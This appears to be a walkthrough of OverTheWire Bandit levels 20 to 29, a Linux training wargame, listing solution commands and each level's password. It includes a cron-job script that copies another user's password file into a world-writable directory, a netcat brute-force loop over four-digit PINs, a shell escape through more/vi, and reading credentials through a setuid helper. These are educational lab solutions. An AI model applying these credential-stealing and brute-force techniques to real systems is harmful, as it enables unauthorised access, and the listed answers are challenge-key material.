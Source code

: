 
## Level 20 -> 21
### Look -> ssh, nc, cat, bash, screen, tmux, Unix ‘job control’ (bg, fg, jobs, &, CTRL-Z, …)
#### Solve
```bash
echo -n 'GbKksEFF4yrVs6il55v6gwY5aVje5f0j' | nc -l -p 1234 &
./suconnect 1234
```
**password**: EeoULMCra2q0dSkYj561DX7s1CpBuOBt

## Level 21 -> 22
### Look -> cron, crontab, crontab(5) (use “man 5 crontab” to access this)
#### Solve
```bash
cd /etc/cron.d/
cat cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
**password**: tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q

## Level 22 -> 23
### Look -> cron, crontab, crontab(5) (use “man 5 crontab” to access this)
#### Solve
```bash
cd /etc/cron.d/
cat cronjob_bandit23
cat /usr/bin/cronjob_bandit23.sh
echo I am user bandit23 | md5sum | cut -d ' ' -f 1
cat /tmp/ #(write echo's result)
```
**password**: 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga

## Level 23 -> 24
### Look -> cron, crontab, crontab(5) (use “man 5 crontab” to access this)
#### Solve
```bash
mkdir /tmp/bnd
cd /tmp/bnd
vim bandit_pass.sh
	#!/bin/bash
	cat /etc/bandit_pass/bandit24 > /tmp/bnd/password
chmod 777 bandit_pass.sh
touch password
chmod 777 password
chmod 777 .
cp bandit_pass.sh /var/spooll/bandit24/foo
cat password
# you need to wait for a minute and read the password file
```
**password**: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

## Level 24 -> 25
### Look -> Bash Script
#### Solve
```bash
mkdir /tmp/brutforce
cd /tmp/brutforce
vim bandit_pass.sh
	#!/bin/bash
	touch password
	for i in {1000..9999};
	do
	        echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"              
	done | nc localhost 30002 > password
	cat password | grep -v "wrong"
chmod +rwx bandit_pass.sh
./bandit_pass.sh
```
**password**: iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

## Level 25 -> 26
### Look -> ssh, cat, more, vi, ls, id, pwd
#### Solve
- Read
	- https://www.geeksforgeeks.org/more-command-in-linux-with-examples/
```bash
ssh -i bandit26.sshkey -p 2220 bandit26@bandit.labs.overthewire.org
#(you have to resize your window until see more command)
#understand how more command works
	:set shell=/bin/bash
	:sh
```
**password**: s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ

## Level 26 -> 27
### Look ->  ls
#### Solve
- look bandit27-do permissions and understand what should you do!
	- IT'S SO EASY DON'T BE LAZY
```bash
ls -la
./bandit27-do cat /etc/bandit_pass/bandit27
```
**password**: upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB


## Level 27 -> 28
### Look ->  git
#### Solve
```bash
mkdir /tmp/bandit_27git
cd /tmp/bandit_27git
git clone ssh://bandit27-git@localhost:2220/home/bandit27-git/repo
cd repo
cat README
```
**password**: Yz9IpL0sBcCeuG7m9uQFt8ZNpS4HZRcN


## Level 28 -> 29
### Look ->  git
#### Solve
- a
```bash
mkdir /tmp/bandit_28git
cd /tmp/bandit_28git
git clone ssh://bandit28-git@localhost:2220/home/bandit28-git/repo
cd repo
git log
git show 674690a00a0056ab96048f7317b9ec20c057c06b
```
**password**: 4pT1t5DENaYuqnqvadYs1oE4QLCdjmJ7

## Level 29 -> 30
### Look ->  git, git show
#### Solve
```bash
mkdir /tmp/bandit_29git
cd /tmp/bandit_29git
git clone ssh://bandit29-git@localhost:2220/home/bandit29-git/repo
cd repo
git show origin/dev
```
**password**: qp30ex3VLz5MDG1n91YowTv4Q8l7CDZL